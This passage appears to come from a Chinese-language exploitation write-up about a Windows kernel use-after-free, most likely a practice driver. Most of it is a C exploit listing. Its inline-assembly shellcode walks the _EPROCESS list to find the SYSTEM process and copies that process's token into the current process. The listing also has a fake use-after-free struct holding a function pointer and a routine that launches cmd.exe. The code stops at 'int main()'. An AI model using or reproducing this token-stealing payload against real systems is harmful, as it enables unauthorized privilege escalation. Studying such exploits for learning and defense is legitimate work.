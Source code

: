 ![](http://23.91.100.118:8080/images/2020/06/09/2020-06-09_200955.png)



### 0x5 快速食用指南

![](http://23.91.100.118:8080/images/2020/06/09/2020-06-09_204656.png)



### 0x6 Exp

```c
#include<stdio.h>
#include<Windows.h>
/************************************************************************/
/*                 Write by Thunder_J 2019.6                            */
/************************************************************************/

typedef void(*FunctionPointer) ();

typedef struct _FAKE_USE_AFTER_FREE
{
	FunctionPointer countinter;
	char bufffer[0x54];
}FAKE_USE_AFTER_FREE, * PUSE_AFTER_FREE;

void ShellCode()
{
	_asm
	{
		nop
		pushad
		mov eax, fs: [124h]		// 找到当前线程的_KTHREAD结构
		mov eax, [eax + 0x50]   // 找到_EPROCESS结构
		mov ecx, eax
		mov edx, 4				// edx = system PID(4)

		// 循环是为了获取system的_EPROCESS
		find_sys_pid :
		mov eax, [eax + 0xb8]	// 找到进程活动链表
		sub eax, 0xb8    		// 链表遍历
		cmp[eax + 0xb4], edx    // 根据PID判断是否为SYSTEM
		jnz find_sys_pid

		// 替换Token
		mov edx, [eax + 0xf8]
		mov[ecx + 0xf8], edx
		popad
		ret
	}
}

static VOID CreateCmd()
{
	STARTUPINFO si = { sizeof(si) };
	PROCESS_INFORMATION pi = { 0 };
	si.dwFlags = STARTF_USESHOWWINDOW;
	si.wShowWindow = SW_SHOW;
	WCHAR wzFilePath[MAX_PATH] = { L"cmd.exe" };
	BOOL bReturn = CreateProcessW(NULL, wzFilePath, NULL, NULL, FALSE, CREATE_NEW_CONSOLE, NULL, NULL, (LPSTARTUPINFOW)&si, &pi);
	if (bReturn) CloseHandle(pi.hThread), CloseHandle(pi.hProcess);
}
int main()
```